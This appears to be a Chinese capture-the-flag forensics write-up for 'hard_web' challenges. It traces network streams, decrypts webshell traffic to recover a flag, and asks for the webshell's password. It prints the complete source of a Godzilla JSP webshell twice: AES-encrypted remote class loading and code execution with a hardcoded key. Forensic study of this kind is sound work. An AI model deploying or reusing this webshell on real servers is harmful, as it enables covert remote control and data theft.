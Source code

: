 哥斯拉webshell

```java
<%! String xc="748007e861908c03"; class X extends ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return c.doFinal(s); }catch (Exception e){return null; }}%><%try{byte[] data=new byte[Integer.parseInt(request.getHeader("Content-Length"))];java.io.InputStream inputStream= request.getInputStream();int _num=0;while ((_num+=inputStream.read(data,_num,data.length))<data.length);data=x(data, false);if (session.getAttribute("payload")==null){session.setAttribute("payload",new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters", data);Object f=((Class)session.getAttribute("payload")).newInstance();java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();f.equals(arrOut);f.equals(pageContext);f.toString();response.getOutputStream().write(x(arrOut.toByteArray(), true));} }catch (Exception e){}%>
```

跟踪到流20052

![4](https://static.guyu.pro/2023/08/28/hw2/4.webp)



![5](https://static.guyu.pro/2023/08/28/hw2/5.webp)

发现并不是查看flag，继续跟进流20053

![6](https://static.guyu.pro/2023/08/28/hw2/6.webp)




![3](https://static.guyu.pro/2023/08/28/hw2/7.webp)



![3](https://static.guyu.pro/2023/08/28/hw2/8.webp)

解密请求报文应该是查看flag内容了，解密返回报文得到flag

![3](https://static.guyu.pro/2023/08/28/hw2/9.webp)

答案 `flag{9236b29d-5488-41e6-a04b-53b0d8276542}`

## hard_web_3

题目内容：该webshell的连接密码是多少？

```java
<%!
String xc="748007e861908c03"; class X extends ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return c.doFinal(s); }catch (Exception e){return null; }}
%>
<%try{byte[] data=new byte[Integer.parseInt(request.getHeader("Content-Length"))];java.io.InputStream inputStream= request.getInputStream();int _num=0;while ((_num+=inputStream.read(data,_num,data.length))<data.length);data=x(data, false);if (session.getAttribute("payload")==null){session.setAttribute("payload",new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters", data);Object f=((Class)session.getAttribute("payload")).newInstance();java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();f.equals(arrOut);f.equals(pageContext);f.toString();response.getOutputStream().write(x(arrOut.toByteArray(), true));} }catch (Exception e){}%>

```
